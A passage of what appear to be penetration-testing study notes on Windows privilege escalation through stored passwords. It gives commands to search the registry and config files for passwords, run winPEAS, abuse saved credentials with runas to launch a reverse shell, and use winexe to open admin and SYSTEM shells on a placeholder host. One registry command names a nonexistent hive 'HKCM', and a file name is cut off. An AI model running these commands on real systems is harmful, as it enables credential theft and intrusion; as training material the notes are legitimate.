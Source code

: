 net start dllsvc`

## Passwords
* Several features of windows store passwords insecurely

### Registry

* Search the registry for passwords with commands:
`reg query HKLM /f password /t REG_SZ /s
reg query HKCM /f password /t REG_SZ /s`
* These will have LOTS of results

#### winPEAS
1. Run winPEAS for files/user info
`.\winPEASany.exe quiet filesinfo userinfo`
2. Use winexe to spawn a shell
`winexe -U 'admin%password123' //192.168.X.X cmd.exe`
3. Since the user we have spawned a shell as is an admin we can modify the command and get a system shell
`winexe -U 'admin%password123' --system //192.168.X.X cmd.exe`

### Saved Creds
* Windows has a runas command which allows users to run commands with the privileges of other users.
* This usually requires the knowledge of the other users password
* However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement

#### winPEAS
1. Run with creds checks
`.\winPEASany.exe quiet cmd windowscreds`
2. Confirm manually by running:
`cmdkey /list`
3. Start a listener on kali
4. Use runas to execute a reverseshell as credentialed user
`runas /savecred /user:admin C:\path\to\reverseshell.exe`

### Configuration Files
* Some admins will leave config files on the system with passwords in them
* The "Unattend.xml" file is an example of this.

Commands to help search for passwords in config files (in may be easier to search manually)
`dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt`
* Note these commands only search in the current directory

#### winPEAS
1. Run winPEAS to search for creds in files
`.\winPEASany.exe quiet cmd searchfast filesinfo`
2. Print contents of found files to search them
`type C:\Windows\Panther\Unattend.`
3. In this example the password is base64 encoded. We can decode using kali
`echo 'base64encodedvalue' | base64 -d`
4. Then use winexe to login with the password
`winexe -U 'admin%password123' --system //192.168.X.X cmd.exe`
